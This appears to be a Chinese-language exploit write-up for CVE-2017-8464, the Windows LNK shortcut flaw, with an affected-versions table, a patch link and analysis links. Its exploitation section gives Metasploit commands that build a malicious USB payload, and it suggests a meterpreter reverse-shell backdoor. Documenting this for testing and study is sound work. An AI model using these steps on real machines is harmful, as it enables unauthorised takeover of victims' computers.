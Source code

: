 ### CVE-2017-8464

#### 描述

该漏洞的原理同2010年美国和以色列入侵并破坏伊朗核设施的震网行动中所使用的穿透核设施隔离网络的漏洞（CVE-2010-2568）非常类似，当存在漏洞的电脑被插上保存有漏洞文件的U盘时，不需要额外操作，漏洞攻击程序就可以执行并完全控制用户的电脑系统

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested |
| ------------------- | ---------------- | ------- | ------ | ------ |
| Windows 10          | x86/x64          |         |        |        |
| Windows 10          | x86/x64          | 1511    |        |        |
| Windows 10          | x86/x64          | 1607    |        |        |
| Windows 10          | x86/x64          | 1703    |        |        |
| Windows 7           | x86/x64          |         | SP1    |        |
| Windows 8.1         | x86/x64          |         |        |        |
| Windows Rt 8.1      |                  |         |        |        |
| Windows Server 2008 | x86/x64          |         | SP2    |        |
| Windows Server 2008 | x86/x64          | R2      | SP1    |        |
| Windows Server 2012 |                  |         |        |        |
| Windows Server 2012 |                  | R2      |        |        |
| Windows Server 2016 |                  |         |        |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8464
```

#### 利用方式

测试机器Windows 7 SP1 x64，直接用msf来利用

```
use exploits/windows/fileformat/cve_2017_8464_lnk_rce
set payload windows/x64/exec #要是x86使用windows/exec，还可以设置后门windows/x64/meterpreter/reverse_tcp
set cmd cmd.exe
set EXITFUNC thread
run
```

生成文件

![CVE-2017-8464_win7_x86_msf](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-8464_win7_x86_msf.png?raw=true)

运行命令把它拷贝到test目录下

```
cp -r /root/.msf4/local/ /root/test
```

![CVE-2017-8464_win7_x86_msf2](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-8464_win7_x86_msf2.png?raw=true)

接着把这些文件全部拷贝到U盘中，然后插上电脑即可

测试机器是虚拟机，所以需要打一个补丁**KB2533623**和装一个驱动**Intel(R)_USB_3.0_eXtensible_Host_Controller_Driver_5.0.4.43_v2**，然后USB设置为3.0，Windows7的补丁放在了这里

```
https://github.com/Ascotbe/WinKernelhub/tree/master/Patch
```

GIF图如下

![1](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-8464_win7_x86.gif?raw=true)

#### 分析文章
- https://my.oschina.net/u/4310658/blog/3695267
- https://www.anquanke.com/post/id/202705
- https://wohin.me/0dayan-quan-external-stuxnet-cve-2017-8464/
- https://blog.csdn.net/baidu_41647119/article/details/103875396
- http://www.vxjump.net/files/vuln_analysis/cve-2017-8464.txt